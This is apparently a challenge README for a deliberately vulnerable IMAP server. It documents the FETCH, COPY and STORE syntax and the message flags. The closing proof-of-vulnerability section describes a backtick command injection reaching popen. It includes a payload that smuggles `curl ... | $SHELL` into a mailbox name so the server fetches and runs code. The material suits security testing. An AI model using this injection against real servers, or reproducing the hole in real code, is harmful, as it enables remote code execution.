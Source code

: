 ### FETCH

uid FETCH <select> <attributes>

<select> is in the form of a # to retrieve a single message or #:# for a range of messages

<attributes> can be any of [ full | flags | internaldate | rfc822 | rfc822.size | rfc822.header | rfc822.text | envelope | body | body[<headers>] ]

<headers> can be any of the headers found in a mail message

### COPY

uid COPY <select> <destination mailbox>

<select> is in the form of a # to retrieve a single message or #:# for a range of messages

example:

a101 COPY 3:5 inbox.childtwo
a101 OK COPY completed.

### STORE

uid STORE <select> [+|-]FLAGS ( <flags> )

<select> is in the form of a # to retrieve a single message or #:# for a range of messages

FLAGS <flag list>
         Replace the flags for the message (other than \Recent) with the
         argument.
+FLAGS <flag list>
         Add the argument to the flags for the message.
-FLAGS <flag list>
         Remove the argument from the flags for the message.

#### Flags list:

\Seen - Message has been read

\Answered - Message has been answered

\Flagged - Message is "flagged" for urgent/special attention

\Deleted - Message is "deleted" for removal by later EXPUNGE

\Draft - Message has not completed composition (marked as a draft).

## POV -- Apogee Only

The vulnerability is a command injection in the Server::HandleCreate function.

It allows the attacker to craft a command using enclosed back ticks '`' that will be executed
when the chown command is passed to popen.

The pov passes this command to the IMAP server: a create inbox.hello`curl -L localhost:8000 | $SHELL`world
